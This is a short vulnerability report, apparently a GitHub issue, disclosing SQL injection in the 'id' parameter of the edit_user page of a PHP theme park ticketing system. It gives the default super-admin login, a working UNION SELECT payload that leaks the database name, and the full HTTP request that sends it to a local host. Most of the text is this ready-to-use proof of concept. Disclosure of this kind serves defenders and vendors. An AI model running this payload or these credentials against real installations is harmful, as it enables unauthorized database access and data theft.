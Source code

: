 # Theme Park Ticketing System v1.0 by oretnom23 has SQL injection

BUG_Author: MaskCity

Login account: admin@admin.com/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14613/theme-park-ticketing-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tpts/index.php?page=edit_user,edit_user.php

Vulnerability location: /tpts/index.php?page=edit_user&id, id

dbname =tpts_db

[+] Payload: /tpts/index.php?page=edit_user&id=-1%20union%20select%201,database(),3,4,5,6,7--+ // Leak place ---> id

```sql
GET /tpts/index.php?page=edit_user&id=-1%20union%20select%201,database(),3,4,5,6,7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/182987394-858e51b4-b730-43ab-88b3-4b0a61ef0842.png)

